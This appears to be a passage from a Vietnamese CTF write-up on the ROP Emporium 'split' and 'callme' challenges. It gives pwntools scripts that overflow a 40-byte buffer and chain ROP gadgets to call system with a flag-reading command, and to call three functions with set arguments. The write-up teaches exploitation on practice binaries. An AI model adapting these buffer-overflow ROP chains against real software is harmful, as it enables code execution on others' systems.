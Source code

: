 
### Scipt
```python=
#!/usr/bin/python3

from pwn import *

p = process('./split')

callsystem = 0x0040074b
bincat_flag = 0x601060
pop_rdi = 0x00000000004007c3

payload = b'A'*40
payload += p64(pop_rdi)
payload += p64(bincat_flag)
payload += p64(callsystem)

p.sendlineafter(b'> ', payload)

p.interactive()
```

# **Callme**

### Phân tích
- Giống các challeng trước cũng là lỗi `Buffer Overflow` và chế độ bảo vệ của chương trình cũng giống các challenge trước
![image](https://hackmd.io/_uploads/B16cCd_EC.png)
- Theo gợi ý của bài thì ta cần gọi các hàm `callme_one`, `callme_two`, `callme_three` và set các argument cho các hàm để in flag
- Các hàm `callme_` trong PLT
![image](https://hackmd.io/_uploads/H1WYkK_EC.png)
- Xem các hàm trong chương trình ta thấy có hàm `usefulGadgets`, ta có thể set các số cho các hàm `callme_` bằng cách sử dụng hàm `usefulGadgets` vì đã có sẵn các gadget 
![image](https://hackmd.io/_uploads/rkkOxFdVR.png)
- Ofset: 40 byte


---

### Script
```python=
#!/usr/bin/python3

from pwn import *

p = process('./callme')

callme_one = 0x400720
callme_two = 0x400740
callme_three = 0x4006f0

usegadget = 0x000000000040093c
pading_ret = 0x0000000000400897

set_arg = p64(usegadget) + p64(0xdeadbeefdeadbeef) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload = b'A'*40 + p64(pading_ret) + set_arg + p64(callme_one) + set_arg + p64(callme_two) + set_arg +  p64(callme_three)

```